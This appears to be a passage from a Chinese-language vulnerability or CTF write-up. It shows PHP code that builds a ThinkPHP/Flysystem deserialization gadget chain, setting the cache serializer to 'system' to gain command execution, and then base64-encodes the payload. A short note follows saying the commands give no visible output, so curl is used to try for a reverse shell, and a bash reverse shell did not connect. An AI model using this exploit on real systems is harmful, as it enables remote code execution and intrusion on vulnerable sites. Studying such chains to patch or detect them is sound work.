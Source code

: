 ```
    use League\Flysystem\Cached\Storage\AbstractCache;

    class CacheStore extends AbstractCache
    {
        protected $key = "1";
        protected $store;

        public function __construct($store = "")
        {
            $this->store = $store;
        }
    }
}

namespace think\cache {
    abstract class Driver
    {
        protected $options = [
            'expire' => 0,
            'cache_subdir' => true,
            'prefix' => '',
            'path' => '',
            'hash_type' => 'md5',
            'data_compress' => false,
            'tag_prefix' => 'tag:',
            'serialize' => ['system'],
        ];
    }
}

namespace think\cache\driver {

    use think\cache\Driver;

    class File extends Driver
    {
    }
}

namespace {
    $file = new think\cache\driver\File();
    $cache = new think\filesystem\CacheStore($file);
    echo base64_encode(serialize($cache));
}

```

这里执行命令虽然不知道为什么没有回显，但是可以curl去反弹shell

bash并没有反弹成功

![image-20211105103146411](images/32.png)
